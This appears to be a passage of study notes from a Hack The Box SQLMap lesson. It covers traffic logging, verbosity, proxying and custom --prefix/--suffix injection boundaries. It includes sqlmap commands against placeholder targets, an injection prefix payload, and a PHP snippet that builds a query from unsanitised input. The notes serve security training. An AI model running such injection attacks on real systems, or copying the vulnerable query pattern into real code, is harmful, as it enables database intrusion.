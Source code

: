 ### HANDLING SQLMAP ERRORS:

>The first step is usually to switch the --parse-errors, to parse the DBMS errors (if any) and displays them as part of the program run:

>The -t option stores the whole traffic content to an output file:
```bash
s3curityguy@htb[/htb]$ sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt

s3curityguy@htb[/htb]$ cat /tmp/traffic.txt
HTTP request [#1]:
GET /?id=1 HTTP/1.1
Host: www.example.com
Cache-control: no-cache
Accept-encoding: gzip,deflate
Accept: */*
User-agent: sqlmap/1.4.9 (http://sqlmap.org)
Connection: close

HTTP response [#1] (200 OK):
Date: Thu, 24 Sep 2020 14:12:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 914
Connection: close
Content-Type: text/html; charset=UTF-8
URI: http://www.example.com:80/?id=1

<!DOCTYPE html>
<html lang="en">
...SNIP...
```

> As we can see from the above output, the /tmp/traffic.txt file now contains all sent and received HTTP requests. So, we can now manually investigate these requests to see where the issue is occurring.

>Another useful flag is the -v option, which raises the verbosity level of the console output As we can see, the -v 6 option will directly print all errors and full HTTP request to the terminal so that we can follow along with everything SQLMap is doing in real-time.

>finally, we can utilize the --proxy option to redirect the whole traffic through a (MiTM) proxy (e.g., Burp). This will route all SQLMap traffic through Burp, so that we can later manually investigate all requests, repeat them, and utilize all features of Burp with these requests:

### Prefix/Suffix

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run.
For such runs, options --prefix and --suffix can be used as follows:
Code: bash
```sql
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
This will result in an enclosure of all vector values between the static prefix %')) and the suffix -- -.
For example, if the vulnerable code at the target is:
Code: php
```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```
The vector UNION ALL SELECT 1,2,VERSION(), bounded with the prefix %')) and the suffix -- -, will result in the following (valid) SQL statement at the target:
Code: sql
```sql
```